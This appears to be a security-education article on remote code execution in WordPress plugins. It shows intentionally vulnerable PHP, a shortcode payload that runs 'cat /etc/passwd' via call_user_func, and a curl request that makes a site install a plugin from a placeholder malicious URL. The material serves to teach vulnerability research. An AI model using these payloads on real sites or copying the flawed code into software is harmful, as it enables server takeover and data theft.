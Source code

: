 ```yaml
---
title: Remote Code Execution (RCE)
head:
    - tag: title
      content: Learn about Remote Code Execution (RCE)
contributors:
    - rafiem
    - dhakalananda
---
```




## Introduction

This article covers cases of possible direct RCE on WordPress. This includes improper usage of functions inside of the plugin/theme which can be used to directly execute code or command on the server.

<LinkCard
  title="Learn how to secure your code against RCE"
  href="/academy/wordpress/securing-code/remote-code-execution/"
/>

## Useful Functions

Several functions could be useful to identify a possible RCE vulnerability:

- [`system`](https://www.php.net/manual/en/function.system.php)
- [`exec`](https://www.php.net/manual/en/function.exec.php)
- [`shell_exec`](https://www.php.net/manual/en/function.shell-exec.php)
- [`passthru`](https://www.php.net/manual/en/function.passthru.php)
- [`proc_open`](https://www.php.net/manual/en/function.proc-open.php)
- [`eval`](https://www.php.net/manual/en/function.eval.php)
- [`call_user_func`](https://www.php.net/manual/en/function.call-user-func.php)
- [`call_user_func_array`](https://www.php.net/manual/en/function.call-user-func-array.php)
- [`create_function`](https://www.php.net/manual/en/function.create-function.php) *DEPRECATED as of PHP 7.2.0, and REMOVED as of PHP 8.0.0*

## Dynamic Function Call

PHP also supports a dynamic function call where we can execute a function from a string or variable. For example :

```php
$action_type = $_GET["action"];
$input = $_GET["input"];

echo $action_type($input);
```

We can just simply supply the `action` parameter with arbitrary function such as `system` and put our shell command on the `input` parameter.

## Example Cases

Below is an example of vulnerable code:

```php
function image_render_callback($atts) {
	$atts = shortcode_atts( array(
		'sanitize' => 'esc_attr',
		'src'=>'',
        'text'=>''
	), $atts);

    $chosen_callback = "esc_attr";
    $sanitize_callback = array("trim", "esc_attr", "esc_html", "sanitize_text_field");
    if(!in_array($atts["sanitize"], $sanitize_callback)){
        $chosen_callback = $atts["sanitize"];
    }

    if ( ! empty( $chosen_callback ) && is_callable( $chosen_callback ) ) {
        $text = call_user_func( $chosen_callback, $atts["text"] );
    }

    return sprintf("<img src='%s'>%s</img>", esc_attr($atts["src"]), esc_html($text));

}

add_shortcode("imagerender", "image_render_callback");
```

To exploit this, the Contributor+ role user simply needs to create a drafted post with the below content to trigger RCE via `call_user_func` function:

```json
[imagerender src="https://patchstack.com" sanitize="system" text="cat /etc/passwd"]
```

## Arbitrary Plugin Installation

If there is no proper permission check while installing the plugins, it can lead to Remote Code Execution. An attacker can just create a malicious ZIP and provide it as the source to install the webshell in the WP site.

```php
add_action('wp_ajax_nopriv_install_remote_plugin', function() {
    if (isset($_GET['install_plugin_url'])) {
        $plugin_url = esc_url_raw($_GET['install_plugin_url']);

        include_once ABSPATH . 'wp-admin/includes/class-wp-upgrader.php';
        include_once ABSPATH . 'wp-admin/includes/file.php';
        include_once ABSPATH . 'wp-admin/includes/misc.php';

        $upgrader = new Plugin_Upgrader();
        $upgrader->install($plugin_url);
    }
});
```

To exploit this, any unauthenticated user just needs to perform a GET request to the `/wp-admin/admin-ajax.php` endpoint specifying the remote URL of the malicious plugin.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=install_remote_plugin&install_plugin_url=http://<malicious-url>
```

Below are some of the findings related to RCE:

- [Authenticated RCE in JetElements For Elementor Plugin](https://patchstack.com/articles/authenticated-rce-in-jetelements-for-elementor-plugin/)
- [Critical RCE Patched in Bricks Builder Theme](https://patchstack.com/articles/critical-rce-patched-in-bricks-builder-theme/)
- [Critical Vulnerability Found in GOTMLS Plugin](https://patchstack.com/articles/critical-vulnerability-found-in-gotmls-plugin/)
- [Unpatched Authenticated RCE in Oxygen and Breakdance Builder](https://patchstack.com/articles/unpatched-authenticated-rce-in-oxygen-and-breakdance-builder/)